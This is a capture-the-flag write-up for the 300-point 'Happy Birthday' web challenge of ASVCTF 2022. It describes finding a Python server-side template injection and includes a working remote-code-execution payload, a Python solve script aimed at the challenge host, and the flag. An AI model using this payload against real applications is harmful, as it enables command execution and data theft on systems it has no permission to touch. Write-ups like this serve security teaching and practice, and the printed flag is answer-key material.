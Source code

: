 ```yaml
---
title: Writeup - Happy Birthday (ASVCTF 2022)
date: 2022-08-20 00:00:00
tags: 
- writeup
- web
- asvctf2022
---
```


# ASVCTF 2022 - Happy Birthday Writeup
- Type - Web
- Name - Happy Birthday
- Points - 300

## Description
```markdown
Cowabunga dudes and dudettes. 

Michelangelo here, and I've built you a Birthday Card Generator from me and my 
brothers! Donnie says I need to secure it, but I think it's the coolest thing 
since sliced pizza.

Party On!
```

## Writeup
When you navigate to a hosted instance, all you see is a very simple page:

<img src="/static/asvctf-happybirthday/site.png" width="500px">

Any input you place is shown on the page (such as the value `test`, seen below). Note that XSS payloads don't work since the `<` and `>` characters are properly escaped. 

<img src="/static/asvctf-happybirthday/test.png" width="500px">

At this point, it wasn't clear if the input was going through any sort of server-side check, or if the vulnerability was present elsewhere, but I tried a [Server-Side Template Injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) (SSTI) payload anyway. The most simple payload to test is `{{7*7}}`, and if you see `49` as the result instead of `{{7*7}}`, then you know that the values inside are being processed as code. After trying this, I saw the value `Happy Birthday 49!` reflected, meaning it *was* vulnerable to SSTI!

A quick check of the response headers showed the `Server` set to `Werkzeug/1.0.1 Python/2.7.14`, meaning we had to use a Python SSTI payload to get RCE. I copied a [simple RCE payload from the internet](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part) (`{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`) to run my code and get the output. After a little looking around, I found that the flag was stored in `/`, so the command `cat /flag.txt` worked!

### Solve Script
Here is my [automated exploit](/static/asvctf-happybirthday/solve.py) in Python:

```python
import requests
from urllib.parse import urlencode
from bs4 import BeautifulSoup

# define SSTI payload
payload = urlencode({
        "name": "{{'foo'.__class__.__base__.__subclasses__()[182].__init__"\
            ".__globals__['sys'].modules['os'].popen('cat /flag.txt').read()}}"
    })

# send request and get result
result = requests.request(
    "POST", "http://193.57.159.27:47715/",
    data=payload, 
    headers={'Content-Type': 'application/x-www-form-urlencoded'}
)

# parse result for flag
html = BeautifulSoup(result.text, "html.parser")
flag = html.find_all("h1")[0].text
print(flag)
```

**Flag:** `ASV{f31d34e2b726b385741db15fec005661}`